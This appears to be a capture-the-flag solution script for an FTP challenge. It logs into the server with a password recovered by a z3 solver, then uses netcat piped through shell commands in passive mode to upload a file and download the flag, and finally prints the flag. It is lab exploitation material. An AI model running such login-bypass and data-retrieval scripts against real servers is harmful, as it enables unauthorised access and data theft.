 ```python
if __name__ == "__main__":

    """
    solved by z3
    trying size: 6
    86
    41
    66
    119
    116
    88
    """
    password = [86, 41, 66, 119, 116, 88]
    password = ''.join(chr(c) for c in password)

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    r.sendlineafter("server\n", "USER blankwall")
    r.sendafter("blankwall\n", "PASS "+password)
    r.recvuntil("in\n")
    log.success("login success")

    log.info("Sending dildo.txt...") # don't mind the filename LOL!
    r.sendlinethen("port: ", "PASV")
    pasv_port = int(r.recvline())
    r.sendline("STOR dildo.txt")
    myexec("cat dildo.txt | nc "+HOST+" "+str(pasv_port))
    r.recvuntil("complete\n")
    log.success("Send success!")

    log.info("Downloading flag.txt...")
    r.sendlinethen("port: ", "PASV")
    pasv_port = int(r.recvline())
    r.sendline("RETR flag.txt")
    flag = myexec("nc "+HOST+" "+str(pasv_port))
    log.success("Get flag: "+flag)
``` 

The flag is: `flag{exploiting_ftp_servers_in_2015}`